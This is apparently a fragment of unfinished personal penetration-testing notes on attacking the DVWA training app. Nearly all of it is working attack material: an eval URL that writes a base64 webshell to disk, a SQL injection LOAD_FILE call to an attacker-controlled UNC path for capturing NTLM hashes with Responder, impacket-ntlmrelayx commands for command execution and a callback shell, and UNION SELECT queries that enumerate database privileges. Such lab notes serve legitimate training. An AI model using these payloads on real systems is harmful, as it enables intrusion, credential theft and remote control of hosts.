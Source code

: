 ```
"http://dvwa.local/dvwa/eval_php.php?evaluate=phpinfo()"
```

`<insert screenshots>`

- **Base64 encoded**

```
"http://dvwa.local/dvwa/eval_php.php?evaluate=if(file_put_contents('webshell.php', base64_decode(<base64_encoded>))){ echo 1;} else {echo 2;}"
```

##### 4.2.5.1.4 - NTLM Hashes (Out-of-band)

TODO: Check the links in the references to check other ways to exploit UNC paths

- Run [[Pentesting Phases/Initial Access/Sniffing and Spoofing/Passive/Responder|Responder]] to grab the NTLM hashes

```sql
' UNION SELECT NULL, LOAD_FILE('\\\\<attacker_IP>\\snare.txt')#
```

- Responder

```
$ sudo responder -I <interface> -A
```

- Metasploit Framework

```
smb_relay
```

##### 4.2.5.1.5 - SMB Relay Callback Shell (Out-of-band)

- Execute commands

`$ sudo impacket-ntlmrelayx -t smb://dvwa.local -smb2support -c <commands>`

- Retrieve a callback shell

`$ sudo impacket-ntlmrelayx -t smb://dvwa.local -smb2support -e shell.exe`

#### 4.2.5.2 - Exploit via DUMPFILE

### 4.1.2 - Enumerate Database User Privileges

TODO: Include Create_priv

```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'SELECT', '->', Select_priv, '\n', user, '->', 'INSERT', '->', Insert_priv, '\n', user, '->', 'UPDATE', '->', Update_priv, '\n', user, '->', 'DELETE', '->', Delete_priv, '\n', user, '->', 'DROP', '->', Drop_priv) FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'SELECT', '->', Select_priv, '\n', user, '->', 'INSERT', '->', Insert_priv, '\n', user, '->', 'UPDATE', '->', Update_priv, '\n', user, '->', 'DELETE', '->', Delete_priv, '\n', user, '->', 'DROP', '->', Drop_priv) FROM mysql.user WHERE user = 'dvwa'#

' UNION SELECT NULL, CONCAT(user, '->', 'SELECT', '->', Select_priv, '\n', user, '->', 'INSERT', '->', Insert_priv, '\n', user, '->', 'UPDATE', '->', Update_priv, '\n', user, '->', 'DELETE', '->', Delete_priv, '\n', user, '->', 'DROP', '->', Drop_priv) FROM mysql.user WHERE Select_priv = 'Y' OR Insert_priv = 'Y' OR Update_priv = 'Y' OR Delete_priv = 'Y' OR Drop_priv = 'Y'#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE GRANTEE LIKE "'dvwa'%"#

```